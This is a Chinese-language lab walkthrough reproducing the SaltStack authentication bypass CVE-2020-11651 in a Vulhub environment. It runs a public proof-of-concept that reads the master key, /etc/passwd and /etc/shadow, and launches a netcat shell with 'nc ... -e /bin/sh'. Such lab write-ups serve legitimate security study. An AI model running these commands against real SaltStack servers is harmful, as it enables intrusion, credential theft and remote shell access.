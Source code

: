 ```yaml
---
title: 'SaltStack认证绕过漏洞 CVE-2020-11651'
date: Mon, 31 Aug 2020 09:11:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响范围：

SaltStack < 2019.2.4 SaltStack < 3000.2

靶机环境：Debian10  
靶机IP：192.168.0.250 Kali攻击机IP：192.168.0.124

在Vulhub中找到并进入该漏洞编号目录 cd Vulhub/saltstack/CVE-2020-11651

在该目录启动环境： docker-compose up -d ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/4.png)

查看环境是否成功启动 docker ps //查看docker中正在运行的容器 ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/5.png)

在攻击机上准备Poc 攻击机环境：Kali IP：192.168.0.124

需要先安装Salt库，需指定Salt库版本 pip3 install salt=2019.2.3

然后我没有pip3 就再安装pip3 apt install python3-pip（我没成功）换方法 浏览器安装Salt3000.1 下载地址https://pypi.org/simple/salt/

然后 放进kali攻击机解压： tar -xvzf salt-3000.1.tar.gz

进入解压目录执行安装 python3 setup.py install

安装完成后运行Poc python3 exploit.py -m 192.168.0.250 ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/6.png) 成功读取Key

继续读取文件： python3 exploit.py -m 192.168.0.250 -r /etc/passwd ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/7.png) 成功读取密码 在靶机上执行任意命令： python3 exploit.py -m 192.168.0.250 --exec "nc 127.0.0.1 4444 -e /bin/sh" ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/8.png)

读取/etc/shadow文件 python3 exploit.py -m 192.168.0.250 -r /etc/shadow ![](https://www.bylibrary.cn/wp-content/uploads/2020/08/9.png)

注：应该还能干好多事情. 参考链接： [https://github.com/jasperla/CVE-2020-11651-poc](https://github.com/jasperla/CVE-2020-11651-poc)